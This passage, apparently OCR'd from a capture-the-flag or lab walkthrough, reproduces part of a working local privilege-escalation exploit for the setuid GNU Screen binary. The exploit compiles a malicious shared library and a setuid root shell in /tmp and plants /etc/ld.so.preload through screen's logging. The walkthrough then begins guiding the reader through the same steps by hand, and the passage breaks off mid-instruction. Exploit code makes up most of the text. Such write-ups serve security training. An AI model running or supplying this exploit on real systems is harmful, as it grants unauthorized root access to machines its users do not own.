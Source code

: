 ```bash
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
It is kind of confusing at first but by carefully reading.We can determine the steps to follow to obtain root. Like I said it is bit confusing so try and keep up. If you have any problems you can always refer to the original exploit on `exploit-db`. Follow the following:

```bash
$ cd /

$ cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
	chown("/tmp/rootshell", 0, 0);
	chmod("/tmp/rootshell", 04755);
	unlink("/etc/ld.so.preload");
	printf("[+] done!\n");
}
EOF
```
Export `gcc`'s path in the environment variable:

```bash
$ export PATH=$PATH:/usr/bin
```

Compile the `C` code:
